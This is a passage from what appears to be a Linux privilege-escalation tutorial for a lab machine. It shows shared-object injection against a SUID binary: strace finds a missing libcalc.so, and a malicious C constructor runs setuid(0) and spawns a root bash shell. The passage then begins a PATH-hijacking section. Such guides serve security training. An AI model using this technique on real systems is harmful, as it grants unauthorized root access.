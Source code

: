 To identify a binary that uses shared libraries the ldd tool can be used

#### `ldd /usr/local/bin/suid-so`

Run strace on the SUID file:

#### `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

![](../../../.gitbook/assets/soi2.png)

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

Create the /home/user/.config directory.

Create the file libcalc.c with the following contents:

```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
```

Compile libcalc.c into /home/user/.config/libcalc.so:

#### `gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c` 

Run the SUID executable to get a root shell:

#### `/usr/local/bin/suid-so`

## PATH Environment Variable

The PATH environment variable contains a list of directories where the shell should try to find programs. If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found. Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.
